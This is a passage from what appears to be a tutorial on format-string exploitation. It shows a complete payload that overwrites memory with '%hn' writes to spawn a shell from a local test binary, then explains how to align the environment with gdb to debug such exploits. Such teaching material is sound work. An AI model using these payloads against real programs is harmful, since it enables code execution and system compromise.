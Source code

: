 Now we plug these values into our payload, change the `%hp` to `%hn`. Note that when 
we change the `%00000x` to `%08772`, we leave the leading `0` so that our string
stays the same length. Here is the final exploit:

~~~
:::console
$ env -i ./a.out "$(python -c 'import sys; sys.stdout.write("sh;#\x04\xa0\x04\x08\x06\xa0\x04\x08%08772x%99$hn%13068x%100$hn")')"
sh;#..<garbage>..sh-4.2$ 
~~~

Woo hoo, we got our shell!

# Debugging an exploit #

Sometimes, things don't go as planned and we don't get a shell. If this
happens, `gdb` is your friend. Unfortunately, `gdb` isn't a very good friend.
It helpfully puts stuff in your environment, so any careful calculations you
were doing related to the stack may no longer be valid. In order to resolve
this, you need to make sure your environment looks like the environment used 
by `gdb`. We
first see what the stack looks like under `gdb` and then always run our exploit
with that environment:

~~~
:::console
$ env -i /usr/bin/printenv
$ gdb -q /usr/bin/printenv
Reading symbols from /usr/bin/printenv...(no debugging symbols found)...done.
(gdb) unset env
Delete all environment variables? (y or n) y
(gdb) r
Starting program: /usr/bin/printenv 
PWD=/home/ppp
SHLVL=0
~~~

Now that we know the environment used by `gdb`, we can make sure to always 
execute our payload with the same environment so we can test our exploit in
`gdb`:

~~~
:::console
$ env -i PWD=$(pwd) SHLVL=0 ./a.out "$(python -c 'print "my_exploit_string"')" # Outside gdb.
$ gdb ./a.out # Inside gdb.
(gdb) unset env
Delete all environment variables? (y or n) y
(gdb) r "$(/usr/bin/python -c 'print "my_exploit_string"')"
~~~

The most helpful thing to do in `gdb` is to break just before the call to
`printf` and make sure the argument and the stack stack is what you 
expect (if you expect to use `%10$hn`, make sure the value you control is the 10th argument after the format
string).
If that works, then break right after the call to `printf` and make sure the value you expect is at the target address.

